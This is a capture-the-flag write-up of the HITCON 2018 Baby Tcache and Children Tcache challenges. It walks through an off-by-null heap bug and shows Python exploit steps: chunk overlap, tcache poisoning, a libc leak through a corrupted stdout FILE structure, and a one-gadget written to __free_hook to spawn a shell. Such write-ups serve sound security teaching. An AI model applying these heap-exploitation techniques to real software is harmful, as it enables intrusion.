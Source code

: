 ```yaml
---
layout: post
title: "[HITCON 2018] Baby Tcache"
---
```


## Baby tcache

The challenge is hard because it has no leak function. Just alloc and free heap

![](https://i.imgur.com/uJBrTpL.png)

The vuln off-by-null is easy to find in **new heap** function 

![](https://i.imgur.com/I8zJ2tV.png)

```
v3[size] = 0;
```

if the malloc size & 8 == 8 then it will overwrite to the size of next chunk. It will leads to chunk overlapping so we can control all the heap. 

### Overlapping chunk

To overlap chunk, we will do all the steps below

```python
	#1 create a big chunk to prevent using Tcache. Then push it to unsortedbin.
    newheap(0x1ff0,"A") #0
	newheap(0xff0,"A") #1
	delheap(0)
    #2 Trigger off by null.
	newheap(0x108,"xx")
    #3 Create then free more than 7 chunk to push a chunk to unsortedbin
	for i in xrange(8):
		newheap(0x100,"B")
	for i in xrange(3,10):
		delheap(i)
	delheap(2)
	delheap(0)
    #4 Fix the fd/bk pointer
	for i in xrange(8):
		newheap(0x100,"\x10")
	
	delheap(0)
    # Create some chunk to use it later.
	newheap(0x200,"C")
	newheap(0x200,"C")
    #5. Overlap chunk with top chunk 
	delheap(1)  #overlap
```

heap index #1. prev_size = 0x1ef0

![](https://i.imgur.com/DBwj6Go.png)

Fix the fd/bk pointer (FD->bk==P; BK->fd==P), we can free the heap #1. Then it will merge with chunk `xx360`  and overlap all chunks between 2 chunks.

![](https://i.imgur.com/rSkHSVz.png)



Because the heap #1 is the current high end of memory so it consolidates into top chunk.

![](https://i.imgur.com/HE5Ddhw.png)



### Leak libc

This step is hard if you dont know about FILE structure. Because the author of this challenge is Angelboy :D, so i guess we should use his research about it. 

The slide File Structures: Another Binary Exploitation Technique `https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique` and his talk in HITBGSEC 2018 `https://www.youtube.com/watch?v=Fr3VU5hdL4s`. Then i found the **arbitrary memory reading** by abusing the FILE structure 

```python
    #1. free all heaps to push it to tcache. Then we use technique Tcache poisoning to return to any address we want.
    for i in xrange(1,8):
            delheap(i)
	delheap(9) #0x200
	delheap(0) #0x200
    #2. Malloc heap in unsortbin.
	newheap(0x1150,"c") #0
	#3. Malloc and free to create address libc at the position of FD pointer Tcache.
	newheap(0xd0,"D")
	newheap(0x20,"C")
	newheap(0x550,"a") #3
	newheap(0x30,"a")
	delheap(3)
    #4. Overwrite 2 bytes of FD pointer of freed chunk 3. Brute-force stdout address.
	newheap(0x40,"\x60\xd7")
	newheap(0x100,"a") #6
    #5. Return stdout address.
    pl=""
    pl+=p64(0xfbad3c80) #_flags= ((stdout->flags & ~ _IO_NO_WRITES)|_IO_CURRENTLY_PUTTING)|_IO_IS_APPENDING
    pl+=p64(0) #_IO_read_ptr
    pl+=p64(0) #_IO_read_end
    pl+=p64(0) #_IO_read_base
    pl+="\x08" # overwrite last byte of _IO_write_base to point to libc address
	newheap(0x100,pl)
    #after that, puts function will print the libc address.
```

--1. 

![](https://i.imgur.com/s7ZQtbW.png)

--3. 

![](https://i.imgur.com/src7Rwq.png)

--4. print libc address

![](https://i.imgur.com/XhRCybo.png)

### Overwrite free_hook

The last step is ez. Using Tcache poisoning to write __free_hook address to FD pointer of tcache_entry size 0x210 we prepared above

```python
	#1. overwrite fd pointer
	newheap(0x600,"A"*0x1d0+p64(libc.symbols['__free_hook']))
  	#2. Free some heaps to add new heaps
	delheap(8)
	delheap(1)
	newheap(0x200,"A")
    
    #3. Write one gadget to __free_hook
	newheap(0x200,p64(libc.address+0x4f322)) 
    #4. Trigger shelll
	delheap(0)
```

[exploit script](https://github.com/znqt/writeup/blob/master/2018/hitcon/babytcache/bt.py)

![](https://i.imgur.com/ygkNMER.png)



## Children Tcache

Same as Baby tcache but easier because it has Show heap function.

The vuln is off-by-null because using function strcpy in New heap.

![](https://i.imgur.com/6MMczbG.png)

[exploit script](https://github.com/znqt/writeup/blob/master/2018/hitcon/childrentcache/ct.py)

Thanks HITCON team and Angelboy for insteresting challenges.

### References

https://www.youtube.com/watch?v=Fr3VU5hdL4s

https://code.woboq.org/userspace/glibc/libio/libio.h.html

https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique

https://github.com/scwuaptx/CTF/blob/master/2018-writeup/hitcon/baby_tcache.py
